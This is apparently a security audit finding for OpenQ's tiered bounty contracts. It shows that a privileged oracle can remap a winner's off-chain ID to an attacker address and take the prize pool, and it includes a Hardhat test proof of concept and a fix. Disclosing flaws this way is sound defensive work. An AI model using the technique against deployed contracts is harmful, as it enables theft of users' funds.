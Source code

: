 eyexploit

high

# Malicious oracle can rug pull all the funds held by TieredBounty contracts

## Summary
TieredBounty contracts such as TieredFixedBountyV1, TieredPercentageBountyV1 can be used by oracle to claim all the bounties of any tier winner.

## Vulnerability Detail

OpenQV1 has a `associateExternalIdToAddress()` function which establish a one-to-one mapping between an off-chain id and user payout address. This function is restricted and only callable by oracle. The call to `associateExternalIdToAddress()` is restricted to the oracle owner (EOA operators). 

Any tiered bounty is claimable through `permissionedClaimTieredBounty()` function, if caller claim to any tier, it first fetch caller off-chain id `closer` and winning amount will sent to the payoutAddress corresponding to `closer`. 

```solidity
        string memory closer = IOpenQ(openQ).addressToExternalUserId(
            msg.sender
        );
```

If msg.sender is not the winner, claimed fails here, 

```solidity
        require(
            keccak256(abi.encode(closer)) ==
                keccak256(abi.encode(bounty.tierWinners(_tier))),
            Errors.CLAIMANT_NOT_TIER_WINNER
        );
```

Malicious oracle can set the pointer of winning off-chain-id `closer` to any address other than claimant payout address just after the winners announced. 

Even if the oracle is well intended, the contract can still be called out which would degrade the reputation of the protocol (e.g., see here; https://twitter.com/RugDocIO/status/1411732108029181960). 

**POC**

```javascript
it("Should transfer pool funds to malicious address set by oracle", async () => {
	await openQProxy.mintBounty(Constants.bountyId, Constants.organization, tieredPercentageBountyInitOperation_permissioned);
	const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
	const intialDeposit = ethers.utils.parseEther("2000");
	const [,,,,,,attacker] =  await ethers.getSigners(); 


	await mockDai.approve(bountyAddress, intialDeposit);
	await depositManager.fundBountyToken(bountyAddress, mockDai.address, intialDeposit, 1, Constants.funderUuid);


	await mockKyc.setIsValid(true)
	await openQProxy.connect(oracle).associateExternalIdToAddress(Constants.mockOpenQId, claimant.address) 
	await openQProxy.setTierWinner(Constants.bountyId, 0, Constants.mockOpenQId)
	await openQProxy.setInvoiceComplete(Constants.bountyId, setInvoiceCompleteData_tiered(0, true))
	await openQProxy.setSupportingDocumentsComplete(Constants.bountyId, setSupportingDocumentsComplete_tiered(0, true))

	// ASSUME
	const bounty_dai_balance = (await mockDai.balanceOf(bountyAddress)).toString();
	expect(bounty_dai_balance).to.equal(intialDeposit);
	
	const attacker_dai_balance = (await mockDai.balanceOf(attacker.address)).toString();
	expect(attacker_dai_balance).to.equal('0');

	// maps winner off-chain identity To attacker address
	await openQProxy.connect(oracle).associateExternalIdToAddress(Constants.mockOpenQId, attacker.address)
	
	await expect(claimManager.connect(claimant).permissionedClaimTieredBounty(bountyAddress, abiEncodedTieredCloserDataFirstPlace))
		.to.be.revertedWith('NO_ASSOCIATED_ADDRESS')

	await claimManager.connect(attacker).permissionedClaimTieredBounty(bountyAddress, abiEncodedTieredCloserDataFirstPlace);  

	const attacker_new_dai_balance = (await mockDai.balanceOf(attacker.address)).toString(); 
	expect(attacker_new_dai_balance).to.equal("1200000000000000000000"); // claimed 60% of bounty Pool for tier1
})
```

Note: It can rug pull the other bounty funds in the same way, for tier2 and tier3 winners.

## Impact
Winning prize will be stolen from claimant or tier winners just after the winner sets. 

## Code Snippet
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/OpenQ/Implementations/OpenQV1.sol#L477-L478

https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L75-L116

## Tool used

Manual Review

## Recommendation
Make sure to not to modify the existing off-chain-id  for associated address and existing address for off-chain-id.